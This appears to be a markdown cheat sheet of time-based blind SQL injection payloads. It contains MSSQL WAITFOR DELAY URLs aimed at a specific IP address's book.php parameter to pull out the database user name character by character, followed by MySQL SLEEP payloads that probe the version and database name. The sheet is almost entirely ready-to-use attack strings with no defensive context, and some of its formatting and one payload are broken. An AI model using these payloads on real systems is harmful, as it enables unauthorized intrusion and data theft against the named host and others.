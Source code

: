 #### Timbe Base SQL Injection

```
http://45.77.162.239/book.php?id=2; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://45.77.162.239/book.php?id=2; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://45.77.162.239/book.php?id=2; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'-- 

#Identify 1st Characte

http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--  
http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'--
http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'--  

#To Identify 2nd Character
http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--   
http://45.77.162.239/book.php?id=2; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'--   

### Timbe  SQL Injection sleep operator
```
iron man 'AND sleep(60)#
Admin 'or sleep(5)#
123 'or sleep(5)#
iron man 'AND 2111=2111

iron man' AND IF(substring(VERSION(),1,1) = '5', SLEEP(10), 0)#
iron man' AND IF(MID(VERSION(),1,1) = '5', SLEEP(10), 0)#
iron man' AND IF(substr(@@version,1,1)='5',),SLEEP(10),0)#
iron man' AND IF(MID(VERSION(),1,1) = '4', SLEEP(10), 0)#
iron man' AND IF(substr(@@version,1,1)='4'),SLEEP(10),0)#

#Database Name:
Admin 'AND (select sleep(10) from dual where database() like '%')#
Admin 'AND (select sleep(10) from dual where database() like '%')#
```

```
